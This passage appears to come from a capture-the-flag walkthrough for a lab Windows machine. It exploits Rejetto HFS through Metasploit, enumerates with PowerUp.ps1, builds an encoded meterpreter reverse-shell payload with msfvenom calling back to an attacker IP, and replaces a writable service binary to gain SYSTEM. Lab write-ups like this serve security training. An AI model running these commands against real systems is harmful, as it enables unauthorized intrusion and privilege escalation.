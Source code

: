 ```
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-25T14:03:22
|_  start_date: 2020-04-25T14:01:24
```

#### Using metasploit framework

You can get PowerUp.ps1 from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).

```
msfconsole
search rejetto
use 0
set RHOSTS target
set RPORT 8080
run

upload PowerUp.ps1
load powershell
powershell_shell
. ./PowerUp.ps1
Invoke-AllChecks
```
Result (excerpt):
```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
```

We want to abuse this service and write permissions along CanRestart sp we generate a payload with:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.2.58 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe`

Stop the service, replace the binary and start the service:

```
sc stop AdvancedSystemCareService9
copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc start AdvancedSystemCareService9
```

List the processes and migrate to "TrustedInstaller":
```
ps
migrate 904
getsystem
whoami
cd C:\Users\Administrator\Desktop
more root.txt
```
